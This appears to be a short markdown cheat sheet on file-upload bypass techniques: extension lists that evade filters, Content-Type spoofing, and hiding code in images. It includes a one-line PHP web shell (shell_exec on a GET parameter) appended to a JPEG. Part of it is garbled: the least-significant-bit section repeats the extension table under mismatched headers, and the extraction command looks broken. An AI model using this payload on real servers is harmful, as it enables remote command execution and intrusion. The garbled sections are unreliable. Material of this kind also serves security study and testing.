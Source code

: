 # File Types
In some cases servers may block some, but not all file extensions.

| Language | Extensions |
|----------|------------|
| php      | phtml php php3 php4 php5 inc |
| asp      | asp aspx |
| perl     | pi pm cgi lib |
| jsp      | jsp jspx jsw jsv jspf |
| coldfusion | cfw cfml cfc dbm |

# MIME Types
Servers will check to see if a file has the right MIME Type. Using an intercepting proxy we can change our request in transit using the `Content-Type` header field.

# Steganography
The practice of concealing information wihtin another message or physical object in order to avoid detection.

## Hiding code in images
These techniques may be useful, but they are also very easy to detect. Altering the image file will change it's file hash as well as inflate it's size.

Appending a string to the end of an image file will allow it to still be render, but also provide a unique attack vector.
```sh
echo '<?php echo shell_exec($_GET["cmd"]);?>' >> image.jpg
```
Using the same method you can attach an entire file to the image. That can later be extracted.
```sh
cat rar.rar >> image.jpg
```

Read the file
```sh
hexdump image.jpg | tail -10 | xxd -r -p
```

## Least Significant Bit (LSB) Manipulation
Pixels in a coloured image are represented by 3 bytes (Red, Green, Blue). 
| Binary | Hexadecimal |
|----------|------------|
| php      | phtml php php3 php4 php5 inc |
| asp      | asp aspx |
| perl     | pi pm cgi lib |
| jsp      | jsp jspx jsw jsv jspf |
| coldfusion | cfw cfml cfc dbm |

